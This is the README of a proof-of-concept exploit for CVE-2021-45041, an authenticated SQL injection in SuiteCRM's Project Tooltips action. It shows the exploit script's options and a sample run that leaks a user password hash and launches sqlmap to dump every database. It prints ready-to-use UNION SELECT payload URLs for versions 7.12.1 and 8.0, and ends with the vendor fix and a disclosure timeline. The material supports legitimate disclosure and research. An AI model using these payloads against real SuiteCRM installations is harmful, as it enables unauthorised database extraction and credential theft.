

# CVE-2021-45041

PoC for [CVE-2021-45041](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-45041) aka `SCRMBT-#177` - `Authenticated SQL-Injection in SuiteCRM <= 8.0`

## Usage

Options:

```
(.venv) ➜  CVE-2021-45041 git:(main) ./exploit.py --help
Usage: exploit.py [OPTIONS]

Options:
  -h, --host TEXT          Root of SuiteCRM installation. Defaults to
                           http://localhost
  -u, --username TEXT      Username
  -p, --password TEXT      password
  -c, --col_count INTEGER  Number of columns to use in union query. Defaults
                           to 44
  -d, --dbms TEXT          DBMs used by SuiteCRM. Defaults to mysql
  -d, --is_core BOOLEAN    SuiteCRM Core (>= 8.0.0). Defaults to False
  --help                   Show this message and exit.

  https://github.com/manuelz120/CVE-2021-45041
```

Example usage:

```
(.venv) ➜  CVE-2021-45041 git:(main) ✗ ./exploit.py --host http://localhost --username user --password ******
INFO:CVE-2021-45041:Login did work - Trying to leak user hash to check if SuiteCRM is vulnerable
INFO:CVE-2021-45041:Received the following hash: $2y$10$WTN2aqQOyHUWxBjubqvYrukTOOE.rrfmE4SoogFbv4kc9dXu7vZzq
INFO:CVE-2021-45041:If this doesn't look like a password hash, the exploit might not work correctly
INFO:CVE-2021-45041:Launching sqlmap against target to get full DB dump
INFO:CVE-2021-45041:sqlmap -u 'http://localhost/index.php?module=Project&action=Tooltips&resource_id=test%5C&start_date=%29+*' --headers 'Cookie: PHPSESSID=93b4g4bfd3ak199iiiands8cv8; sugar_user_theme=SuiteP' --technique U --dbms mysql --union-cols=44 --batch --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.12#pip}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:42:51 /2021-12-27/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[21:42:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: UNION query
    Title: Generic UNION query (NULL) - 44 columns (custom)
    Payload: http://localhost:80/index.php?module=Project&action=Tooltips&resource_id=test\&start_date=-8702) UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a6a7a71,0x52736356547967794948526b714b71584c55516679466d45537956795a546d664d74516d54644f41,0x716b767171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[21:42:52] [INFO] testing MySQL
[21:42:52] [INFO] confirming MySQL
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[21:42:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.51
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[21:42:52] [INFO] sqlmap will dump entries of all tables from all databases now
[21:42:52] [INFO] fetching database names
...
```

## Explanation

I recently discovered an authenticated SQL-Injection in SuiteCRM. I was able to verify the vulnerability in version 8.0 and 7.12.1. The vulnerability is located in the `Tooltips`-Action of the `Project` Module. In a default installation, any user is able to call this action by accessing the following URL (for version 8 add the /legacy prefix):

[/index.php?module=Project&action=Tooltips&resource_id=test&start_date=test](http://localhost/index.php?module=Project&action=Tooltips&resource_id=test&start_date=test)

If we check the implementation of that action, we can see that the values are directly taken from `$\_REQUEST` without any additional sanitization, and later on used in the `where`-clause of the query.



Although we cannot use single-quotes due to the HTML-Entity encoding, this is still exploitable since there are multiple injection points. If we specify a `resource_id` ending with a backslash (`\`) character, the following single quote will be escaped, and the string will only be terminated by the single quote, after the `BETWEEN` keyword. This means, whatever the client is sending as `start_date`, will be treated as plain SQL and can be used to carry out an SQL-Injection attack.

Here is a minimal PoC which leaks the password hash of a user:

**Version 7.12.1:**

[/index.php?module=Project&action=Tooltips&resource_id=test\&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23](http://localhost/index.php?module=Project&action=Tooltips&resource_id=test&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23)

**Version 8.0:**

[/legacy/index.php?module=Project&action=Tooltips&resource_id=test\&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23](http://localhost/legacy/index.php?module=Project&action=Tooltips&resource_id=test&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23)

**URL Decoded Version:**

```
module=Project&action=Tooltips&resource_id=test\&start_date=) UNION SELECT 0, 1, 2, 3, 4, (SELECT user_hash from users limit 1), 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43 from dual; #
```


## Implemented fix

Shortly after my report, new SuiteCRM versions (`7.12.2` and `8.0.1`) were released, containing the following fix:

https://github.com/salesagility/SuiteCRM/commit/0201c36b1468a16eb89218e7c798cf0ce2adac5c?diff=unified#diff-cb8e700b4303102f82ba718a035794422b23769c3140a46f77285a268f14232aL489-L496

## Timeline

- **13/12/2021**: Vulnerability discovered and reported to SuiteCRM
- **14/12/2021** Vulnerability confirmed by vendor (SalesAgility)
- **17/12/2021:** Release of fixed versions ([SuiteCRM 7.12.2](https://docs.suitecrm.com/admin/releases/7.12.x/) and [SuiteCRM 8.0.1](https://docs.suitecrm.com/8.x/admin/releases/8.0/))

## Credits

- [SQLMap](https://github.com/sqlmapproject/sqlmap)
- [Click](https://github.com/pallets/click)
- [BeautifulSoup](https://pypi.org/project/beautifulsoup4/)
